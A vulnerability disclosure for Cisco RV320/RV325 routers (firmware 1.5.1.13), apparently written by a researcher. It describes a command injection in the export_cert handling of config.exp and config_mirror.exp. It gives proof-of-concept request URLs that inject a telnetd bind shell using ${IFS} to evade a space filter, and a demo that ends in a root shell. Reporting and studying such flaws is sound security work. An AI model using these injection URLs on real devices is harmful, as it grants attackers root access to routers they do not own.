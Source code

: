 # Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:** 

[https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, the vulnerability also exists in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `export_cert&` is included in our request, it will enter the `exportconfig_CertFile` function.

![](./pic/19.png)

In the `exportconfig_CertFile` function. When the content after the last `&` is `MY_CA`, everything between the second and the third `&` is concatenated unchecked into `acStack1088` and executed as an argument to the `system` function.

![](./pic/20.png)

To sum up, we can write malicious commands between the second and the third `&` with `MY_CA` as the content after the last `&`.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?export_cert&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&abc&MY_CA` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

![](./pic/21.png)

Follow the POC above to make the request.

![](./pic/24.png)

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

![](./pic/23.png)

![](./pic/25.png)